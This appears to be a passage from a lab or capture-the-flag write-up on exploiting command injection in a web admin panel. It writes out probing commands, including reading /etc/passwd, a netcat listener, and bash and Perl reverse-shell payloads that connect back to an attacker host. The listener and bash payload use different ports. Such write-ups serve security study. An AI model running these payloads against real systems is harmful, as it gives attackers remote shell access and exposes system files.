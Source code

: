 **LOGIN SUCCESS** 


# Exploiting Steps :

I can execute **OS Commands** in **admin panel**.

## [Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

Command injection is a cyber attack that involves executing arbitrary commands on a host operating system (OS). Typically, the threat actor injects the commands by exploiting an application vulnerability, such as insufficient input validation.

Also Trying to **Upload or Execute REVERSE SHELL**

## STEP 1

Checking the command injection

```bash
whoami
```
```bash
pwd
```
```bash
cat ../../../etc/passwd
```

**EXECUTION SUCCESS**

## STEP 2

Starting **Reverse Shell** on **Port 4444**


```bash
nc -nvlp 4444
```

```bash
Listening on 0.0.0.0 4444
```

## STEP 3

Trying Payloads bash,perl..

**BASH Payload**
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

**PERL Payload**
```perl
perl -e 'use Socket;$i="$MYIP";$p=4444-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
